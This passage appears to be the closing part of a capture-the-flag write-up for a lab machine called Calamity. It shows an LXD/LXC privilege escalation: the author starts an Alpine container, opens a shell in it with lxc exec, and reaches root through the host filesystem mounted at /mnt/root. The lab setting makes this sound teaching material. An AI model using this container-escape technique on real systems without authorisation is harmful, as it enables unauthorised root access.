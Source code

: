 Now the container is setup and ready, lets run it :

```sh
lxc start container-Alpine
```

![](/Linux/Linux-Hard/Calamity/Screenshots/lxcrun.png)

so its running now lets get the shell inside the cointainer 

```sh
lxc exec container-Alpine /bin/sh
```

![](/Linux/Linux-Hard/Calamity/Screenshots/root.png)

and we get root. The host root file system is at `/mnt/root`:

![](/Linux/Linux-Hard/Calamity/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------




